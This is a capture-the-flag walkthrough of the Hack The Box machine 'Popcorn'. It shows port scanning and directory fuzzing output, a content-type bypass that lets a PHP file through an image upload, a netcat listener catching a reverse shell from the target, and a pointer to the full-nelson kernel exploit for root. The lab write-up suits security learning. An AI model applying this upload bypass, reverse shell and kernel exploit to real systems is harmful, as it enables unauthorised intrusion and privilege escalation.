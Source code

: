 ```yaml
---
image: /assets/img/popcorn/popcorn.png
layout: post
title: Popcorn
date: 2020-10-6 00:00:01 +5:30
categories: [Hackthebox, Medium]
tags: [torrent, web, upload] # add tag
---
```


## Summary

> We have torrent in port 80<br />
> Created an Account<br />
> There is an upload vulnerability in screenshot upload feature<br />
> After getting shell, linuxexpliotsuggester will show some exploits<br />
> Exploiting with nelson Exploit will give Root

## Walkthrough

### Enumeration

```bash
argenestel@parrot  ~/Desktop/hackthebox/popcorn  rustscan 10.10.10.6
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.

[~] The config file is expected to be at "/home/argenestel/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5
000'.  
Open 10.10.10.6:22
Open 10.10.10.6:80
[~] Starting Nmap
[>] The Nmap command to be run is nmap -vvv -p 22,80 10.10.10.6

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 21:09 IST
Initiating Ping Scan at 21:09
Scanning 10.10.10.6 [2 ports]
Completed Ping Scan at 21:09, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:09
Completed Parallel DNS resolution of 1 host. at 21:09, 0.05s elapsed
DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:09
Scanning 10.10.10.6 [2 ports]
Discovered open port 80/tcp on 10.10.10.6
Discovered open port 22/tcp on 10.10.10.6
Completed Connect Scan at 21:09, 0.20s elapsed (2 total ports)
Nmap scan report for 10.10.10.6
Host is up, received syn-ack (0.20s latency).
Scanned at 2020-10-04 21:09:37 IST for 1s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds

```

#### Port 80

Okay  let's dirbust the port80.

```bash
root@parrot  ~/Desktop/hackthebox/popcorn  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.6/FUZZ  

       /'___\  /'___\           /'___\        
      /\ \__/ /\ \__/  __  __  /\ \__/        
      \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
       \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
        \ \_\   \ \_\  \ \____/  \ \_\        
         \/_/    \/_/   \/___/    \/_/        

      v1.0.2
________________________________________________

:: Method           : GET
:: URL              : http://10.10.10.6/FUZZ
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 287, Words: 21, Lines: 11]
.htpasswd               [Status: 403, Size: 287, Words: 21, Lines: 11]
cgi-bin/                [Status: 403, Size: 286, Words: 21, Lines: 11]
index                   [Status: 200, Size: 177, Words: 22, Lines: 5]
rename                  [Status: 301, Size: 309, Words: 20, Lines: 10]
test                    [Status: 200, Size: 47067, Words: 2465, Lines: 651]
torrent                 [Status: 301, Size: 310, Words: 20, Lines: 10]
```

![port](/assets/img/popcorn/port80torrent.png)

![login](/assets/img/popcorn/login.png)

Alright we checked common passwords and didn't worked.<br/>
Let's check by reg user (admin user already exists).

![reg](/assets/img/popcorn/registered.png)

Okay let's check if uploading php is possible or not<br />
ughh we can only upload torrent file.
So looking into previously uploaded file we can upload screenshot to let's check by uploading a torrent file.

since it is checking content type i changed it from application/x-php to image/png
and it was accepted as png

![upload](/assets/img/popcorn/uploaded.png)

Alright done now lets manupulate screenshot.

![uploadpng](/assets/img/popcorn/uploadedpng.png)

![png](/assets/img/popcorn/pngerror.png)

### Exploitation

Hurrayy let's get shell

```bash
root@parrot  ~/Desktop/hackthebox/popcorn  nc -lvnp  4444  
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.6] 48833
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 21:47:21 up  4:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: no job control in this shell
www-data@popcorn:/$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@popcorn:/$ id
id
```

alright got www-data<br />
moving on to user

so we got george username<br />

![reg](/assets/img/popcorn/linuxexploitsuggester.png)

![reg](/assets/img/popcorn/nelsonexp.png)

<https://github.com/lucyoa/kernel-exploits/blob/master/full-nelson/full-nelson> <br />
so i got root by running linux exploit suggester.

Rooted :)
